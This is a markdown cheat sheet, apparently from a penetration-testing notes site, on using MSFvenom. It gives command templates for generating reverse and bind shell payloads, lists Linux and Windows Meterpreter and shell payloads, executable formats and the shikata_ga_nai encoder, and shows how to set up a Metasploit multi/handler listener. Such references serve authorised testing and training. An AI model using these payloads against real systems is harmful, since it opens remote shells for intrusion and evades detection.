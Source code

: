 ```yaml
---
layout: default
title: MSFVenom
---
```


# MSFvenom
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## General Reverse Shell Format
```shell
msfvenom -p <payload> LHOST=<local IP> LPORT=<local port> [-f <format>] [-e <encoder>] [-b <bad chars>] [-a <arch>] [--platform <platform>] [-o <file name>]
```
- For bind shells replace `LHOST=<local IP>` with `RHOST=<remote IP>`
- `-b` bad chars follows format such as `"\x00\x0D"`
- `EXITFUNC=<exit technique>`
    - `process` use where master process restarts on exit; use with multi/handler
    - `thread` *(default)*; use where shellcode runs in sub-thread; exit results in working system
    - `seh` use where a structured exception handler (SEH) restarts the thread or process on error
    - `none`

---

## Payloads
```shell
msfvenom -l payloads
```

### Linux
```shell
linux/x64/meterpreter/bind_tcp            # Bind Meterpreter (staged)
linux/x64/meterpreter_bind_tcp            # Bind Meterpreter
linux/x64/meterpreter/reverse_tcp         # Reverse Meterpreter (staged)
linux/x64/meterpreter_reverse_tcp         # Reverse Meterpreter

linux/x64/shell/bind_tcp                  # Bind shell (staged)
linux/x64/shell_bind_tcp                  # Bind shell
linux/x64/shell/reverse_tcp               # Reverse shell (staged)
linux/x64/shell_reverse_tcp               # Reverse shell
```
- `x86` also available

### Windows
```shell
windows/x64/meterpreter/reverse_tcp       # Reverse Meterpreter (staged)
windows/x64/meterpreter_reverse_tcp       # Reverse Meterpreter
windows/x64/meterpreter/bind_tcp          # Bind Meterpreter (staged)
windows/x64/meterpreter_bind_tcp          # Bind Meterpreter

windows/x64/shell/reverse_tcp             # Reverse shell (staged)
windows/x64/shell_reverse_tcp             # Reverse shell
windows/x64/shell/bind_tcp                # Bind shell (staged)
windows/x64/shell_bind_tcp                # Bind shell

windows/x64/powershell_bind_tcp           # Bind PowerShell
windows/x64/powershell_reverse_tcp        # Reverse PowerShell

windows/x64/exec                          # Execute command; use CMD=<cmd>
```
- Remove `/x64` for x86

---

## Formats
```shell
msfvenom -l formats
```
### Executable
```shell
asp, aspx, dll, elf, exe, jar, jsp, msi, psh, vba, vbs, war
```

### Transform
```shell
bash, c, csharp, dword, hex, java, js_be, js_le, perl, powershell, python, raw, ruby, vbapplication, vbscript
```

---

## Encoders
```shell
msfvenom -l encoders
```
```shell
x86/shikata_ga_nai                        # Polymorphic XOR Additive Feedback Encoder
```
- `-i` for number of iterations

---

## Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <payload>
set RHOST <remote IP>
set LHOST <local IP>
set LPORT <local port>
run
```